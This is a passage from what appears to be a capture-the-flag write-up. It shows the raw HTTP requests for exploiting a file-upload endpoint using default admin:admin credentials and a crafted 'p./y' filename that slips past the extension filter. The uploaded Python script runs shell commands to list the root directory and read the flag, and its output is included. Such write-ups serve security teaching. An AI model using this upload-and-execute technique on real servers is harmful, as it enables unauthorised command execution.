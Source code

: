 Putting this together, we can create our exploit python script on the server with the following
`POST` request, including the `admin:admin` basic authentication header.

```
POST / HTTP/1.1
Host: 18.191.117.63:9090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------27015668151794350363716216349
Content-Length: 315
Origin: http://18.191.117.63:9090
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://18.191.117.63:9090/
Upgrade-Insecure-Requests: 1

-----------------------------27015668151794350363716216349
Content-Disposition: form-data; name="file"; filename="amon_34123.p./y"
Content-Type: application/octet-stream

#!/usr/bin/env python3

import os
print(os.system("ls -la /;cat /flag"))

-----------------------------27015668151794350363716216349--

```

Next, to trigger the script, we just simply visit the `/uploads/amon_34123.py` script path.

```
GET /uploads/amon_34123.py HTTP/1.1
Host: 18.191.117.63:9090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Upgrade-Insecure-Requests: 1


```

In the response, we can see that the `flag` as well as some other interesting file such as `flag2`
and `auth` are located at the `/` path. We also obtain our first flag.

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 01 Jan 2022 06:58:00 GMT
Content-Length: 1636
Connection: close

total 864
drwxr-xr-x   1 root   root     4096 Jan  1 00:06 .
drwxr-xr-x   1 root   root     4096 Jan  1 00:06 ..
-rwxr-xr-x   1 root   root        0 Jan  1 00:06 .dockerenv
-r-xr--r--   1 daemon daemon 802768 Dec 31 22:39 auth
lrwxrwxrwx   1 root   root        7 Oct  6 16:47 bin -> usr/bin
drwxr-xr-x   2 root   root     4096 Apr 15  2020 boot
drwxr-xr-x   5 root   root      340 Jan  1 03:44 dev
drwxr-xr-x   1 root   root     4096 Jan  1 00:06 etc
```